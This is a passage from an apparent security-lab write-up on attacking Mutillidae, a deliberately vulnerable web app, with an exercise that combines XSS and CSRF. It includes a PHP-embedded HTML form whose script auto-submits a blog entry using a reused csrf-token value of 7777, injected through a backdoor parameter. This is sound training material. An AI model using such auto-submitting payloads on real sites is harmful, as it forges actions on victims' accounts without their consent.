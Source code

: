 Network when the security level is 0

![](./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.020.png)

Network when the security level is 1![ref1]

![](./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.021.jpeg)

3. *Create a GET request with an XSSattack and embed a script to index page. Remember to login beforehand.***

Solution

In this section, I embedded a PHP script in the URL with the backdoor parameter I created and added a blog to the user through this script. As mentioned above, I logged in before and since I logged in, I made a request by giving the value 7777 in the csrf-token parameter because as I mentioned above, this request would be invalid when the token variable was empty. Below you can see the URL part of the request I sent, the PHP code I embedded and the result.

XSS attack URL

![](./report_images/./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.022.jpeg)

Code
```
  <?php
  
  echo '
  
  <body>
  
  <form id="addToBlogFrom" method="post" action="http://192.168.1.41/mutillidae/index.php?page=add-to-your-blog.php"> <input name="csrf-token" value="7777" />
  
  <textarea name="blog\_entry">blog added from xss attack</textarea>
  
  <input name="add-to-your-blog-php-submit-button" value="Save Blog Entry" /> </form>
  
  <script>
  
  document.addEventListener("DOMContentLoaded", function () { document.getElementById("addToBlogFrom").submit();
  
  }, false);
  
  </script>
  
  </body>'
  
```

[ref1]: ./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.002.png
[ref2]: ./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.007.png